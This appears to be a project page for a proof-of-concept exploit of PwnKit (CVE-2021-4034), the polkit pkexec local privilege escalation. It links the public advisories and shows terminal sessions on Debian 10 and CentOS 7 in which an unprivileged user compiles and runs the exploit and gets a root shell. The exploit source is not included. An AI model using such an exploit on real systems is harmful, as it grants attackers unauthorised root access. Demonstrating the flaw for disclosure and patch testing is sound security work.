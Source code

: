 ```yaml
---
slug:  "/projects/poc"
date:  "2022-06-14"
title: "poc"
icon:  "c"
---
```



# CVE-2021-4034
PoC for PwnKit: Local Privilege Escalation Vulnerability in polkit’s pkexec (CVE-2021-4034)

https://seclists.org/oss-sec/2022/q1/80  
https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034

# PoC

Verified on Debian 10 and CentOS 7.

```
user@debian:~$ grep PRETTY /etc/os-release
PRETTY_NAME="Debian GNU/Linux 10 (buster)"
user@debian:~$ id
uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
user@debian:~$ gcc cve-2021-4034-poc.c -o cve-2021-4034-poc
user@debian:~$ ./cve-2021-4034-poc
# id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),1000(user)
```

```
[user@centos ~]$ grep PRETTY /etc/os-release
PRETTY_NAME="CentOS Linux 7 (Core)"
[user@centos ~]$ id
uid=11000(user) gid=11000(user) groups=11000(user) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
[user@centos ~]$ gcc cve-2021-4034-poc.c -o cve-2021-4034-poc
[user@centos ~]$ ./cve-2021-4034-poc
sh-4.2# id
uid=0(root) gid=0(root) groups=0(root),11000(user) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
sh-4.2# exit
```
